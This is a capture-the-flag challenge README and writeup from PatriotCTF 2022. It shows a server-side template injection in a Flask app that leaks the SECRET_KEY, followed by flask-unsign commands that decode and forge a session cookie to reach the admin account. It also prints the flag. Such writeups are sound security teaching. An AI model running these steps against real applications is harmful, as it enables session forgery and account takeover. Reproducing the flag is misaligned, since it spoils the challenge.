 # Not So Secret

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Not%20So%20Secret/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. 

Someone hacked my site after I read their message, so I am no longer reading DMs send to me! >:( On top of that, I am imposing an even harsher special character filter because I don't actually know how to patch my code.

p.s. To save you some time, don't try getting a reverse shell

### Difficulty
Medium

### Flag
`PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}`

### Hints
1. Template injection
2. Sign your own cookie

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is vulnerable to template injection. After signing up, send a test SSTI message `{{7*7}}`:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/49.png" width=40%  height=40%></p>

We see that 7*7 was evaluated to 49, so we have successful template injection. There is a filter in place blocking these characters: `._[]|\`. This is so you can't attempt to execute python code to run system commands 'cause I want it solved another way.

In flask, we can have it give us the config file with this `{config}`, so let's try that:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_config.png" width=40%  height=40%></p>

We see a `SECRET_KEY` set to `ifXEaNLEiDLIuquyRKzfeJJWzntoIm`. If we have the app's secret key, we can sign the session cookies used by the app. We'll use a tool called `flask-unsign` to do this for us (install w/ `pip3 install flask-unsign`).

Let's first decode our user's session cookie so we know the format. I use the Firefox extension `cookie editor` to do all of this:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/cookie_editor.png" width=40%  height=40%></p>

```console
$ flask-unsign --decode --cookie '.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsv3B3oyLwQ.YieZSw.Fox-K5Pj1Zq30KG5ZngqBFzRce8'

{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '2'}
```
We see that the `_user_id` key has a value of `2`. We can assume that the admin user's `_user_id` must be `1`. Let's sign our new key:

```console
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '1'}" --secret 'ifXEaNLEiDLIuquyRKzfeJJWzntoIm'

.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsr3B3ovLwM.YieaAA.nYGnkeNzCLq7xT-gp_KWw8lrFrs
```

The final step is to change our session cookie value to the one we just got, and reload the webpage. We should be admin and have access to the admin panel:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/raw/main/writeup-images/ssti_flag.png" width=60%  height=60%></p>
